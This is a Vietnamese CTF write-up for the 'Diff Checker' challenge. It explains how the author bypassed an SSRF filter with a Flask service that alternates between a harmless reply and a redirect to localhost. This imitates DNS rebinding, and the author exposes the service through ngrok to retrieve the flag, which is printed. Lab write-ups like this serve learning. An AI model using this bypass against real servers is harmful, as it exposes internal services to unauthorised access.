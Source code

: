 # Diff Checker

Mình vẫn chưa solve được bài này tại giải do có một ít bruh .__. Bài này sử dụng một kĩ thuật khá hay giống với thứ mình mới học gần đây nên mình viết write up để lưu lại :>

## Hmmmmmm

Sau khi nghiên cứu source thì ai cũng biết flag được giấu ở đây :)) Để lấy được flag thì mình phải request đến `/flag` bằng một địa chỉ local.

```js
app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){ // check ip local
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});
```

Server sẽ request 2 lần đến địa chỉ mà mình cung cấp:

* Lần 1 là kiếm tra SSRF tại hàm `validifyURL`

```js
valid = await fetch(url, {agent: ssrfFilter(url)})
```

* Lần 2 là thực hiện `fetch` để lấy nội dung tại hàm `diffURLs`

```js
const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
```

Khi request lần đầu, server sẽ check SSRF do đó URL mình nhập vào không được trỏ đến các địa chỉ bị filter như: `localhost`, `127.0.0.1`, `0.0.0.0`,... Sau khi đã pass được đoạn check SSRF thì mình cần phải trỏ đến server bằng địa chỉ local để lấy được flag.

Với ý tưởng như trên mình có thể dễ dàng solve được bài này bằng kĩ thuật DNS Rebinding nhưng ở đây, mình sẽ tự build một cái service tương tự, đây chính là thứ mình muốn note lại.

***But ưtf is D N S R e b i n d i n g ????***

![dejavu](images/dejavu.png)

DNS Rebinding ở các bài viết trước của mình:

* [Ez SQL (ISITDTU CTF QUALS 2021)](https://github.com/woanmeo11/ctf-writeups/tree/main/ISITDTU%20CTF%20QUALS%202021/ez%20sql)

* [A tiny hole (Cookie Arena Season 1)](https://github.com/woanmeo11/ctf-writeups/tree/main/Cookie%20Arena%20Season%201/A%20tiny%20hole)

## Do it

Đây là một đoạn code mình dựa trên ý tưởng vừa rồi, `backend.py`:

```python
from flask import Flask, redirect
import requests

app = Flask(__name__)
bit_flip = 0

# This function works like DNS Rebinding technique.
@app.route("/")
def rebinding():
    global bit_flip
    bit_flip += 1
    if bit_flip & 1:
        return 'bruh'
    else:
        return redirect('http://localhost:1337/flag')

app.run('localhost', 1234)
```

Đoạn code trên sẽ xoay vòng trả về `bruh` hoặc chuyển hướng đến `http://localhost:1337/flag`.

Tiếp theo mình chạy file `backend.py` và dùng `ngrok` để public lên internet:

```console
$ ngrok http localhost:1234

ngrok by @inconshreveable                                                                                (Ctrl+C to quit)

Session Status                online
Account                       woanmeo11 (Plan: Free)
Version                       2.3.40
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234
Forwarding                    https://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

Cuối cùng, dùng URL mình nhận được từ `ngrok` để exploit thôi xD

![exploit](images/exploit.png)

Wait for it.

![flag](images/flag.png)


Flag: `idek{d1ff3r3nc3_ch3ck3r_d3ce1v3d_bY_d1ff3r3nc3s}`

#

Technique này mình note lại từ `downgrade` <3
